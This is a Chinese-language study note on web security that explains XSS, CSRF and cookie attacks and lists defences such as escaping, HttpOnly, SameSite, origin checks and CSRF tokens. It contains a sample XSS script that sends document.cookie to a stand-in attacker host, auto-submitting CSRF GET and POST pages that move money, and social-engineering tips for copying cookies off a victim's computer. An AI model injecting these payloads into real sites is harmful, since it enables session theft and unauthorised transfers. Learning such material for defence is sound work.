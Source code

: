 # Web 安全

## XSS
为了避免跟 CSS 的缩写混淆，Cross-Site Script 的缩写是 XSS。它是通过一些手段在受害者的网页上植入一些 JS 脚本，然后执行后续攻击逻辑 (如: 修改 DOM 将黑客自己的收款码贴上来、获取 Cookie 并发送到黑客的服务器等等)。

XSS 攻击分为 3 种: 存储型、反射型、DOM 型。前两个是后端的锅，第三个是前端的锅。最主要的防范方法就是前后端都要对那些会被插入到 HTML 中的内容做特殊字符转义。

其它内容自己看参考资料，我这里没必要重复写一遍。

## CSRF
CSRF 攻击分为：GET 类型、POST 类型、链接类型。

CSRF 攻击一般需要受害者已经登录过目标站点 (保存过 Cookie)，否则一般造不成什么损失，所以我们在 Cookie 章节细讲。

其它内容自己看参考资料，我这里没必要重复写一遍。

## Cookie
我们会将用户身份标识信息 (看起来是很长的一串乱码) 放在 Cookie 当中，HTTP 请求发送给服务器后，服务器根据 Cookie 是否正确来判断身份。所以 Cookie 就成了重点攻防目标，对此主要有两种攻击思路。
- 窃取 Cookie，然后黑客就能伪装成用户进行转账操作
- 不窃取 Cookie，通过 CSRF 让用户在不知情的情况下发起转账的 HTTP 请求

窃取 Cookie 的笨办法：
- 可以直接把用户电脑偷偷拿出来，打开浏览器进入淘宝，然后在开发者工具中可以查看网站的 Cookie，把这个 Cookie 复制出来，最后把电脑偷偷放回去
- 找一些借口 (如：维修电脑)，用 QQ 远程桌面控制等方法远程控制用户的电脑，然后打开浏览器将 Cookie 复制出来

### XSS 窃取 Cookie
通过 XSS 漏洞注入下面这样的 JS 脚本。

```javascript
var cookie = document.cookie;  // 1. 获取 Cookie 信息
var xhr = new XMLHttpRequest();
xhr.open('http://heike.com?cookie=' + cookie);  // 2. 将 Cookie 信息发送到黑客服务器
xhr.send();
```

### CSRF 无需窃取 Cookie
假设 A 站点是黑客的网站，黑客诱导用户进入 A 网站，然后 A 站点会给 B 站点发送 HTTP 请求。比如说 B 站点的转账接口是这样的：`b.com/withdraw?account=bob&amount=10000&for=mallory`。A 站只要给这个 URL 发送 HTTP 请求，浏览器会带上受害者的 Cookie，就攻击成功了。

A 站点可以这样设计来自动发起 CSRF GET 请求：
```html
<html>
<body>
    <img src="http://b.com/withdraw?account=bob&amount=10000&for=mallory" />
</body>
</html>
```

A 站点也可以这样设计来自动发起 CSRF POST 请求：
```html
<html>
<body>
  <form id='hacker-form' action="http://b.com/pay" method=POST>
    <input type="hidden" name="account" value="bob" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="mallory" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```

### Cookie 攻防总结
XSS 攻击的防范：
- 最好前后端都对 `<script>` 做过滤或转义，避免留下 XSS 漏洞
- 给敏感的 Cookie 加上 HttpOnly 属性，不敏感的不需要加以便简化开发

CSRF 攻击的防范：
- Cookie 加上 SameSite 属性
- 服务器验证 HTTP 请求头中的 Referer、Origin 字段，验证请求发起的来源
- 使用 CSRF Token

其它注意：
- 特别敏感的操作要进行二次验证 (如短信验证码)

## 参考资料
这里给的参考资料都是好啃的，一定要自己去看，对于网上已经整理的很好的知识，我不会再写一遍。

- 美团技术团队的：[前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)
- 美团技术团队的：[前端安全系列（二）：如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)
- MDN 的文档: [HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
